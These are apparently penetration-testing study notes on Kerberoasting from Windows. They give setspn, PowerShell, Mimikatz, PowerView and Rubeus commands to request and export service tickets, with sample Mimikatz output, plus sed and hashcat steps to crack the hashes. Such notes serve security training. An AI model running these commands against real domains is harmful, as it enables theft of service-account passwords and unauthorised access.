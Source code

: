# Kerberoasting - From Windows

### Semi Manual Method

* `C:\> setspn.exe -Q */*` → lists various available SPNs
* `PS C:\> Add-Type -AssemblyName System.IdentityModel`
* `PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL:1433"`
  * The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
  * The `AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
  * [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
  * We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
  * We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

We are requesting TGS tickets for an account and load them into memory to later extract using Mimikatz

* `PS C:\> setspn.exe -T DOMAIN.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }` → request tickets for all accounts with SPNs set.

Now lets extract tickets from mimikatz

```
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export

<SNIP>

[00000002] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL:1433 @ DOMAIN.LOCAL
   Client Name       : USERNAME @ DOMAIN.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
====================
Base64 of file : 2-40a10000-USERNAME@MSSQLSvc~DEV-PRE-SQL~1433-DOMAIN.LOCAL.kirbi
====================
doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFO
RUZSRUlHSFQuTE9DQUyiOzA5oAMCAQKhMjAwGwhNU1NRTFN2YxskREVWLVBSRS1T
UUwuaW5sYW5lZnJlaWdodC5sb2NhbDoxNDMzo4IEvzCCBLugAwIBF6EDAgECooIE
<...................SNIP...................>
LkxPQ0FMqTswOaADAgECoTIwMBsITVNTUUxTdmMbJERFVi1QUkUtU1FMLmlubGFu
ZWZyZWlnaHQubG9jYWw6MTQzMw==
====================

   * Saved to file     : 2-40a10000-USERNAME@MSSQLSvc~DEV-PRE-SQL~1433-DOMAIN.LOCAL.kirbi

<SNIP>
```

if we do not specify `base64 /out:true` , mimikatz will extract the tickets and write them to `.kirbi` files

* decode this base64 Blob and save into file `sqldev.kirbi`
* then use `kirbi2john` to extract Kerberos Ticket.
*   `sed 's/\$krb5tgs\$(.*):\(.*\)/\$krb5tgs\$23\$\1\$\2/' crack_file > sqldev_tgs_hashcat` → modify the file/hash for Hashcat

    \*\*$\*\*krb5tgs$23$_sqldev.kirbi_$813149fb261549a6a1b38e71a057feeab → it will look something like this
* `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt` → finally cracking the hash.

### Automated / Tool Based Route

* `setspn.exe -Q */*` → list available spns

#### Using PowerView

* `PS C:\> Import-Module .\PowerView.ps1` → importing powerview
* `PS C:\> Get-DomainUser * -spn | select samaccountname` → getting spn account
* `PS C:\> Get-DomainUser -Identity username | Get-DomainSPNTicket -Format Hashcat` → Targeting Specific User
* `PS C:\> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation` → Exporting All tickets to csv file

#### Using Rubeus

Rubeus does not need us to explicitly set the SPN or the user.

* `PS C:\> .\Rubeus.exe kerberoast /stats` → get the stats
*   `PS C:\> .\Rubeus.exe kerberoast`

    we can add flag `/nowrap` so that hash will not be wrapped in any form so it will be easier to crack using hashcat.

    also we can use `/outfile:filename` to save the ticket, instead of displaying it.
* `PS C:\> .\Rubeus.exe kerberoast /user:testspn /nowrap` → for specific user.

we can use `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket.

RC4 is easier to crack compared to AES 256 and 128
